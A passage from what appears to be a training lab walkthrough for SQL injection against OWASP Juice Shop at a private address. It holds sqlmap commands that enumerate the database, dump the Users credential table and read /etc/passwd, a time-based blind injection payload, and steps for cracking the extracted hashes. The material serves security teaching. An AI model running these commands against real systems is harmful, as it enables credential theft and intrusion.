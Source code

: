 **Step 6: Database Enumeration**

**Activity 5: List Databases**

```bash
sqlmap -u "http://192.168.1.100:3000/rest/user/login" \
       --data="email=test&password=test" \
       --dbs
```

**Activity 6: Extract Table Information**

```bash
sqlmap -u "http://192.168.1.100:3000/rest/user/login" \
       --data="email=test&password=test" \
       -D main \
       --tables
```

**Activity 7: Dump User Credentials**

```bash
sqlmap -u "http://192.168.1.100:3000/rest/user/login" \
       --data="email=test&password=test" \
       -D main \
       -T Users \
       --dump
```

### Task 4: Advanced Exploitation Techniques

**Step 7: Time-Based Blind SQL Injection**

1. **Payload:** `admin@juice-sh.op'; WAITFOR DELAY '00:00:05'--`
2. **Purpose:** Test for time-based blind SQL injection
3. **Observation:** Monitor response time for delays

**Step 8: File System Access (if applicable)**

```bash
sqlmap -u "http://192.168.1.100:3000/rest/user/login" \
       --data="email=test&password=test" \
       --file-read="/etc/passwd"
```

**Activity 8: Challenge Completion**

1. **Admin Login Challenge:** Successfully log in as administrator
2. **Data Export Challenge:** Extract user database information
3. **Document findings:** Screenshot successful attacks

### Task 5: Post-Exploitation Analysis

**Step 9: Credential Analysis**

1. Analyze extracted password hashes
2. Attempt hash cracking using tools like John the Ripper or Hashcat
3. Document weak passwords discovered

